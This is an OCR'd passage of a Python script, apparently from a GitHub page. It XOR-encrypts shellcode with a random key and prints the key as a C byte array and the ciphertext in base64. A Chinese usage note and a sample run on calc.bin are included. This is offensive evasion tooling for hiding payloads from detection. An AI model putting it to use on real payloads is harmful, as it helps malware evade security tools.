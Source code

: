 ```bash
        ciphertext.append(encrypted_byte)
    return bytes(ciphertext)

def save_to_file(data, filename):
    with open(filename, "wb") as file:
        file.write(data)

def print_hex_array(data):
    print('{ 0x' + ', 0x'.join(hex(x)[2:] for x in data) + ' };')

def main():
    parser = argparse.ArgumentParser(description='XOR encrypt a binary file.')
    parser.add_argument('filename', help='Path to the binary file to be encrypted')

    args = parser.parse_args()
    filename = args.filename

    try:
        with open(filename, "rb") as file:
            plaintext = file.read()
    except FileNotFoundError:
        print(f"Error: File '{filename}' not found.")
        sys.exit(1)

    file_size = os.path.getsize(filename)
    key = generate_random_string(10).encode("utf-8")
    ciphertext = xor_encrypt(plaintext, key)

    output_filename = f"{filename[:-4]}_encrypted.bin"
    save_to_file(ciphertext, output_filename)

    print(f"[*] XOR encrypted: {output_filename}")
    print(f"[*] Key length: {len(key)}")
    print(f"[*] Payload length: {file_size}")
    print(f"[*] Key: {key}")
    print_hex_array(key)
    print(f"[*] Base64 encoded ciphertext: {base64.b64encode(ciphertext).decode()}")

if __name__ == "__main__":
    main()
```

使用方法，将 Shellcode 作为函数名称传入，会返回转换后的 Shellcode

```bash
python .\xor.py .\calc.bin
[*] XOR encrypted: .\calc_encrypted.bin
[*] Key length: 10
[*] Payload length: 276
[*] Key: b'LAny0PUdn4'
{ 0x4c, 0x41, 0x6e, 0x79, 0x30, 0x50, 0x55, 0x64, 0x6e, 0x34 };
[*] Base64 encoded ciphertext: sAntncC4lWRuNA0QLyliAQMsX+YpCeUrUBjeNnZ8xxNOMbsiBSxhgwYLI0j5GGSkwggtPWxVEBGUrWN1TYCMlGIRBCzlZmzKLEV4UYXv7rxMQW4xtZAhAyY1nBHlMSgU3iROfU2RjS94r5wl5QDECW+vfWGcLF/04ACvsD0RVKVW1DmwInp8dF0hV+U5mTY9uxBxLW/kKgDldXgU3iRyfU2RL/I02B1lvnUUADYnaQoUPC9tDRsm+txwFDaR1BQANyN420eNOcuzvjMxilFVZG40TEFuMb3dVGVuNA37X/Jf16qx1cT54zg4ivbA2fPLmQntvRhsUxhktLehG3yLF0YWAV5MGC/w6q+ABw9YL28LAVVQ
```
